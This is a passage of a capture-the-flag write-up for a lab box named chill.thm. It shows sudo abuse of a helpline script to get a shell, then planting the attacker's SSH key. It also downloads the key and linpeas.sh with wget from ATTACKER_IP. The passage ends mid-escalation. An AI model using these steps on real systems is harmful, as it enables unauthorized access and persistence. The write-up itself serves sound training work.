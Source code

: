 Our idea to exploit the helpline script was right, now let's do it:
```bash
sudo -u apaar /home/apaar/.helpline.sh
```

Now we can simply supply `bash` as message and we will get a shell as Apaar.
At this point we can read the flag:
```bash
cat local.txt
```

--> REDACTED_FLAG

Now for a more stable connection let's grant us permissions to access via SSH.
1. Go in the user `.ssh` directory and move away that file:
```bash
 mv authorized_keys authorized_keys.bak
```

On our machine:
Generate them:
```bash
ssh-keygen -t rsa -b 4096 -C "
```

Now you can copy your public key to the current working directory:
```bash
cp ~/.ssh/id_rsa.pub .
```

Start a python server:
```bash
python3 -m http.server
```

On the target machine create this directory: `~/.ssh`.
Download here your public key:
```bash
wget http://ATTACKER_IP:8000/id_rsa.pub
```

Rename the file:
```bash
mv id_rsa.pub authorized_key
```

Now we can finally login via SSH:
```bash
ssh apaar@chill.thm
```

Now we have a stable SSH connection.

#### Becoming Aurick
From my machine i transferred the `linpeas.sh` script on the target using a python HTTP server:
```bash
python3 -m http.server
```

On target:
```bash
wget http://ATTACKER_IP:8000/linpeas.sh
```
